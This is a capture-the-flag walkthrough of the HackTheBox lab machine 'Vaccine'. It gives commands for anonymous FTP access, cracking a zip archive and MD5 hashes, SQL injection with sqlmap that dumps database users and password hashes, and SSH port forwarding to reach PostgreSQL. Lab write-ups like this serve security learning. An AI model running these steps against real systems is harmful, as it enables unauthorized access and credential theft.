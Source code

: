 ```yaml
---
title: Vaccine - A HackThebBox machine 
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - walkthrough
---
```


# Vaccine - A HackTheBox machine


```bash
nmap -sC -sV $ip -Pn
```
Two open ports: 21 and 80


Also, from nmap analysys, ftp service at 21 allows us to use anonymous signin with empty password:

```bash
ftp $ip

# enter user "anonymous" and hit enter when prompted for password
```

```ftp
dir
# listed appears file backup.zip

get *
```

Try to open zip file, but it's password protected, so we crak it with [johntheripper](john-the-ripper.md):


```bash
zip2john nameoffile.zip > zip.hashes
cat zip.hashes
john zip.hashes
# Proceeding with wordlist:/usr/share/john/password.lst
# 741852963        (backup.zip)    


#Unzip file:
unzip backup.zip

# Echo index file
cat index.php
```

Before the html code there is a piece of php starting the session. Username and password are hard encoded there:

```php
<?php
session_start();
  if(isset($_POST['username']) && isset($_POST['password'])) {
    if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {
      $_SESSION['login'] = "true";
      header("Location: dashboard.php");
    }
  }
?>
```

In crackstation.net, we obtain that the hash "2cb42f8734ea607eefed3b70af13bbd3" was md5 encrypted and that actual password is "qwerty789"

With this, open browser and enter username and password. You will be redirected to: htpp://$ip/dashboard.php

Search box triggers a error message on frontend when introducing simple quotation mark as imput "'":

```
 ERROR: unterminated quoted string at or near "'" LINE 1: Select * from cars where name ilike '%'%' ^
```

This tells us about a sql injection vulnerability.


```bash
# Ask for backend DBMS
sqlmap -u http://10.129.95.174/dashboard.php --forms --cookie="PHPSESSID=kcr9helek579t5cjcldcbb5fc1" --batch      

#---------
# [11:03:27] [INFO] the back-end DBMS is PostgreSQL
#web server operating system: Linux Ubuntu 20.04 or 20.10 or 19.10 (eoan or focal)
#web application technology: Apache 2.4.41
#back-end DBMS: PostgreSQL



# Ask for databases
sqlmap -u http://10.129.95.174/dashboard.php --forms --cookie="PHPSESSID=kcr9helek579t5cjcldcbb5fc1" --batch --dbs

# ------
# [11:06:12] [INFO] fetching database (schema) names available databases [3]:
# [*] information_schema
# [*] pg_catalog
# [*] public



# Ask for tables in db pg_catalog
sqlmap -u http://10.129.95.174/dashboard.php --forms --cookie="PHPSESSID=kcr9helek579t5cjcldcbb5fc1" --batch -D pg_catalog --tables

# Response contains 62 tables. 


# Ask for users
sqlmap -u http://10.129.95.174/dashboard.php --forms --cookie="PHPSESSID=kcr9helek579t5cjcldcbb5fc1" --batch --users 

# -----
# [11:10:16] [INFO] resumed: 'postgres'
# database management system users [1]:
# [*] postgres


sqlmap -u http://10.129.95.174/dashboard.php --forms --cookie="PHPSESSID=kcr9helek579t5cjcldcbb5fc1" --batch -D pg_catalog -T pg_user -C passwd,usebypassrls,useconfig,usecreatedb,usename,userepl,usesuper,usesysid,valuntil --dump



# Ask for passwords
sqlmap -u http://10.129.95.174/dashboard.php --forms --cookie="PHPSESSID=kcr9helek579t5cjcldcbb5fc1" --batch --passwords --dump

# -----
# database management system users password hashes:
# [*] postgres [1]:
#    password hash: md52d58e0637ec1e94cdfba3d1c26b67d01

```

First 3 characters are a tip about the hash. Using https://md5.gromweb.com/?md5=2d58e0637ec1e94cdfba3d1c26b67d01 we obtain: The MD5 hash: 2d58e0637ec1e94cdfba3d1c26b67d01 was succesfully reversed into the string: P@s5w0rd!postgres

Now, as we couldn't spot [port 5432 (postgres)](5432-postgres.md) open, we will use port-tunneling with ssh.

```bash
ssh UserNameInTheAttackedMachine@IPOfTheAttackedMachine -L 1234:localhost:5432 
# We will listen for incoming connections on our local port 1234. When a client connects to our local port, the SSH client will forward the connection to the remote server on port 22. This allows the local client to access services on the remote server as if they were running on the local machine.
# We are forwarding traffic from any given local port, for instance 1234, to the port on which PostgreSQL is listening, namely 5432, on the remote server. We therefore specify port 1234 to the left of localhost, and 5432 to the right, indicating the target port.

ssh postgres@10.129.95.174 -L 1234:localhost:5432

```





